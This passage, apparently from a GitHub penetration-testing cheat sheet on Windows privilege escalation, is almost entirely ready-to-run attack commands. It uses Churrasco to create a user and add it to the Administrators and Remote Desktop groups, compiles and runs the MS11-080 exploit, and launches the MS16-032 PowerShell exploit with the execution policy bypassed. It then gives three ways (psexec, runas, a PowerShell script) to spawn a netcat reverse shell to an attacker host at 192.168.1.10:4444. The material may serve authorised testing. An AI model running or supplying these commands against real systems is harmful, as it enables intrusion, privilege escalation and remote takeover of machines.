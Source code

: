          c:\Inetpub>churrasco -d "net user /add <username> <password>"
         c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
         c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

-   Windows MS11-080 - http://www.exploit-db.com/exploits/18176/  
    
          python pyinstaller.py --onefile ms11-080.py  
          mx11-080.exe -O XP
    
-   Powershell Exploits - You may find that some Windows privledge escalation exploits are written in Powershell. You may not have an interactive shell that allows you to enter the powershell prompt.  Once the powershell script is uploaded to the server, here is a quick one liner to run a powershell command from a basic (cmd.exe) shell:

      MS16-032 https://www.exploit-db.com/exploits/39719/
      
      `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"`
      
    
-   Powershell Priv Escalation Tools
    https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

-   Windows Run As - Switching users in linux is trival with the `SU` command.  However, an equivalent command does not exist in Windows.  Here are 3 ways to run a command as a different user in Windows.

      -   Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).

               C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 

               PsExec v2.2 - Execute processes remotely
               Copyright (C) 2001-2016 Mark Russinovich
               Sysinternals - www.sysinternals.com

      -   Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:

               C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
               Enter the password for Test:
               Attempting to start nc.exe as user "COMPUTERNAME\Test" ...

      -   PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.

               $username = '<username here>'
               $password = '<password here>'
               $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
               $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
               Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

             Next run this script using powershell.exe:
